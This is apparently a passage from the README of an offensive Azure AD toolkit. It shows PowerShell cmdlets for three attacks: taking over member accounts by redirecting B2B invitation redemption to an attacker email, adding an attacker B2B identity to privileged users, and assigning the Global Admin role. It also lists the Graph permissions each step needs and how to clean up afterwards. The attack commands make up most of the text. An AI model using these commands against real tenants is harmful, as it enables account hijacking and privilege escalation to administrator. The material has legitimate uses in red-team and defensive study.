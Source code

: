 ```powershell
# Hijack a member that had been converted to B2B user already
$victim = "hagrid29@XXX.onmicrosoft.com"
$attackerMail = "XXX@external.com" 
Set-AAAUserMail -UserId $victim -mail $attackerMail
Remove-AAAUserOtherMails -UserId $victim -otherMails $attackerMail
New-AAAUserOtherMails -UserId $victim -otherMails $attackerMail
Send-AAAB2BInvitation -action resetRedemption -UserId $victim -mail $attackerMail

# Clean up
Set-AAAUserMail -UserId "hagrid29@XXX.onmicrosoft.com" -mail "hagrid29@XXX.onmicrosoft.com"   
Remove-AAAUserOtherMails -UserId "hagrid29@XXX.onmicrosoft.com" -otherMails "XXX@external.com"
```

#### Hijack Azure account - *identities* properties (PE to admin user)

###### Permission for inviting user: User.Invite.All, User.ReadWrite.All, Directory.ReadWrite.All

###### Permission for adding new identities:  User.ManageIdentities.All (apply to all user), Directory.ReadWrite.All (apply to non-admin user)

###### Permission for cleaning up: User.Read.All + User.ManageIdentities.All (apply to all user), Directory.ReadWrite.All (apply to non-admin user)

Hijack privileged Azure account (member with/without mailbox) by adding B2B identity of target user

```powershell
# Hijack a member with/without mailbox
$victim = "hagrid29@XXX.onmicrosoft.com"
$attackerMail = "XXX@external.com" 
New-AAAUserB2BIdentities -UserId $victim -mail $attackerMail
Send-AAAB2BInvitation -action sendInvitation -mail $attackerMail -Displayname "Tommy Cheung"

# Clean up
Remove-AAAUserB2BIdentities -UserId "hagrid@XXX.onmicrosoft.com" -mail "XXX@external.com"
```

#### Assign Directory Role (PE to admin user)

###### Permission: RoleManagement.ReadWrite.Directory

Assign privileged directory role (e.g., Global Admin) to target object  [[REF-Andy Robbins](https://posts.specterops.io/azure-privilege-escalation-via-azure-api-permissions-abuse-74aee1006f48)]

```powershell
$TargetObjectId = "XXXX"
$GlobalAdminTempalteId = "62e90394-69f5-4237-9190-012177145e10"
Set-AAADirectoryRoleMember -RoleTemplateId $GlobalAdminTempalteId -TargetObjectId $TargetObjectId
#Clean up
Remove-AAADirectoryRoleMember -RoleTemplateId $GlobalAdminTempalteId -TargetObjectId $TargetObjectId
```
